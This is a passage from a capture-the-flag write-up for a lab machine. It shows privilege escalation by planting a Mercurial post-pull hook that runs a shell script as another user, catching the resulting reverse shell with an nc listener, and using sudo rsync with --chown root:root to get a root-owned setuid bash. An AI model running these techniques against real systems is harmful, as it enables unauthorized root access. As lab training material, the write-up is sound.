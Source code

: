 `hg` is a command like tool for `mercurial` a source control management tool similar to git. One of the files: `.hgrc` can have a `[hooks]` section. According to

[mercurial](https://www.mercurial-scm.org/doc/hgrc.5.html#hooks)

`hooks` are:
```
Commands or Python functions that get automatically executed by various actions such as starting or finishing a commit. Multiple hooks can be run for the same action by appending a suffix to the action. Overriding a site-wide hook can be done by changing its value or setting it to an empty string. Hooks can be prioritized by adding a prefix of priority. to the hook name on a new line and setting the priority. The default priority is 0.
```
So we write `/tmp/rev.sh`, we write it in tmp so both `qa` and `dev` have access to it.

then we write a directory `.hg` with `hgrc`(copied from `/home/qa/.hgrc`):
```
[hooks]
post-pull = /tmp/rev.sh
```
lastly execute the command as `dev`:
```console
$ sudo -u dev /usr/bin/hg pull /home/dev/app-production/
```
We have a callback as `dev`:
```console
# nc -lvnp 9001                                                                                                                                       Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.36.
Ncat: Connection from 10.10.11.36:42634.
I'm out of office until January 29th, don't call me
dev@yummy:/tmp$
```
Transferring ssh keys to get a more stable shell.
checking `sudo -l` once again we see we have `rsync` on the app into `/opt` using this we can copy `/bin/bash` and set the sticky execution bit, and execute `rsync` with `--chown root:root` to make the bash have `root` as it's owner.
```console
$ sudo /usr/bin/rsync -a --exclude\=.hg /home/dev/app-production/* --chown root:root /opt/app/
```
just like that, we have `root`!